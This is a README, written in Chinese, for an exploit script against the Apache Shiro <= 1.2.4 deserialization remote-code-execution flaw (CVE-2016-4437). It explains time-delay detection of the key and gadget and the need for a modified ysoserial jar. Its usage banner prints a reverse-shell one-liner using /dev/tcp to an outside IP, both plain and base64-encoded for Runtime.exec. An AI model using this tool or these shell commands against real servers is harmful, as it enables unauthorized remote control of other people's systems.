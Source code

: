 # Readme
shiro &lt;= 1.2.4 反序列化远程命令执行利用脚本  
使用延时判断key和gadget，即使目标不出网也可以检测是否存在漏洞  
python脚本需要调用ysoserial-sleep.jar，ysoserial-sleep.jar文件并不是原版的，增加了延时命令功能，故不要使用原版ysoserial，否则将无法检测  
```
+-------------------------------------------------------------------------------------------------------+
+ DES: By zhzyker as https://github.com/zhzyker/exphub                                                  +
+      Vuln Name: CVE-2016-4437 | Shiro 550  |  Shiro 1.2.4                                             +
+                                                                                                       +
+      Nc shell need encode command: http://www.jackson-t.ca/runtime-exec-payloads.html                 +
+      Original: bash -i >&/dev/tcp/1.1.1.1/233 0>&1                                                    +
+      Encoding: bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}  +
+-------------------------------------------------------------------------------------------------------+
+ USE: python3 <filename> <url>                                                                         +
+ EXP: python3 shiro-1.2.4_rce.py http://1.1.1.1:8080                                                   +
+ VER: Apahce Shiro <= 1.2.4                                                                            +
+-------------------------------------------------------------------------------------------------------+
```

# RCE

![images](https://github.com/zhzyker/shiro-1.2.4-rce/blob/master/image/1.gif)
![images](https://github.com/zhzyker/shiro-1.2.4-rce/blob/master/image/2.gif)
